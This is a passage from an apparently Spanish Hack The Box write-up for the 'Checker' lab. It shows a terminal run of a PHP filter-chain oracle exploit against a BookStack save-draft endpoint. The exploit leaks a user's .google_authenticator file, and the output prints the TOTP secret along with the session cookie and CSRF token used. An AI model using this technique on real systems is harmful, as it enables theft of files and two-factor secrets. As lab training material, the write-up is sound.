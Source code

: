 ![](assets/img/htb-writeup-checker/checker3_3.png)

Con base en esta información, intento leer el archivo /backup/home_backup/home/reader/.google_authenticator:

```terminal
/home/kali/Documents/htb/machines/checker:-$ python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"XoJ6BnOXK7EenZqt7MMMcK7ntqaB1loUhMbgxvxD","Cookie":"bookstack_session=eyJpdiI6ImZObXl6bldDVURZYjRvODkvcUttRmc9PSIsInZhbHVlIjoiRVRVbkExMzhIMWIySEQzNnMya1ZZZW1YejdOR2pWRGgzY2ZPM0hIQmJ2QkF2a3hTWHh4eVYzY3lzMWFUTVZ4a2t2eThtVmxjU0NJWHJQUTBPT0RkQUxuL1EyTTdvcStncnEvR2E4R295eTlFOGU0U21saHVNeTFidGwzVDl0aHYiLCJtYWMiOiJmYWFiY2FkYjUxMWExMGFlMzgxOTk0NjNkMjZjNGJiMzY5OWZlYzVkN2FhNTc4MmJhMzc0M2Y1YzM2NjQyOGUzIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/13/save-draft --file '/backup/home_backup/home/reader/.google_authenticator'
[*] The following URL is targeted : http://checker.htb/ajax/page/13/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"XoJ6BnOXK7EenZqt7MMMcK7ntqaB1loUhMbgxvxD","Cookie":"bookstack_session=eyJpdiI6ImZObXl6bldDVURZYjRvODkvcUttRmc9PSIsInZhbHVlIjoiRVRVbkExMzhIMWIySEQzNnMya1ZZZW1YejdOR2pWRGgzY2ZPM0hIQmJ2QkF2a3hTWHh4eVYzY3lzMWFUTVZ4a2t2eThtVmxjU0NJWHJQUTBPT0RkQUxuL1EyTTdvcStncnEvR2E4R295eTlFOGU0U21saHVNeTFidGwzVDl0aHYiLCJtYWMiOiJmYWFiY2FkYjUxMWExMGFlMzgxOTk0NjNkMjZjNGJiMzY5OWZlYzVkN2FhNTc4MmJhMzc0M2Y1YzM2NjQyOGUzIiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```
